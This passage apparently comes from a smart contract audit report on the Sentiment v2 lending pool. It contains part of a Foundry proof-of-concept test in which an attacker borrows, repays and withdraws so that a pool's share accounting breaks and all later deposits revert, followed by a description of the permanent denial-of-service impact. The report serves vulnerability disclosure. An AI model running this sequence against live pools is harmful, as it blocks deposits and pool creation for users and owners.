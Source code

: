 ```js
        // 1. attacker borrow 1000 wei he deposited :
        vm.startPrank(attacker);
        bytes memory data = abi.encode(linearRatePool, 1000);

        Action memory action = Action({ op: Operation.Borrow, data: data });
        Action[] memory actions = new Action[](1);
        actions[0] = action;

        PositionManager(positionManager).processBatch(position, actions);
        // 2. attacker wait a few seconds , and repay the debt :
        skip(12); // 1 block on mainnet
        // repay  the debt :
        asset1.mint(position, 10_000);
        bytes memory repayData = abi.encode(linearRatePool, type(uint256).max);
        Action memory repayAction = Action({ op: Operation.Repay, data: repayData });
        Action[] memory repayActions = new Action[](1);
        repayActions[0] = repayAction;
        PositionManager(positionManager).processBatch(position, repayActions);
        // 3. attacker withdraw 1000 wei from the pool he deposited to :
        pool.withdraw(linearRatePool, 1000, attacker, attacker);
        (,,,,,,,,, uint256 totalAsset, uint256 totalShares) = pool.poolDataFor(linearRatePool);
        assertTrue(totalAsset == 1 && totalShares == 0);
        vm.stopPrank();
        // NOW THE POOL IS BLOCKED AND NO DEPOSITS CAN BE DONE TO THIS POOL :
        vm.expectRevert(abi.encodeWithSelector(Pool.Pool_ZeroSharesDeposit.selector, linearRatePool, 1000));
        pool.deposit(linearRatePool, 1000, address(0x9));
    }
 }
```
- This PoC clearly illustrates how an attacker can exploit the rounding issues and interest accrual mechanism to create a pool state that prevents any future deposits, severely impacting the protocol's functionality.

## Impact
The impact of this vulnerability is :

- Permanent DoS of pools: Affected pools become permanently blocked for new deposits, rendering them unusable , since dpositing asset is the entrypoint for any pool to function.
- Pool Creation Restrictions: Pool owners, especially smart contracts with fixed addresses, are unable to create new pools with the same `asset` and `rateModel`. This significantly limits the protocol's flexibility and ability to recover from affected pools.
-  notice that anyone can create a pool for other owners and target this state , which prevent those effected from creating a pool with the same rateModule/asset for ever.
## Code Snippet
- https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/Pool.sol#L322-L323
- https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/Pool.sol#L350
- https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/Pool.sol#L275-L283
## Tool used
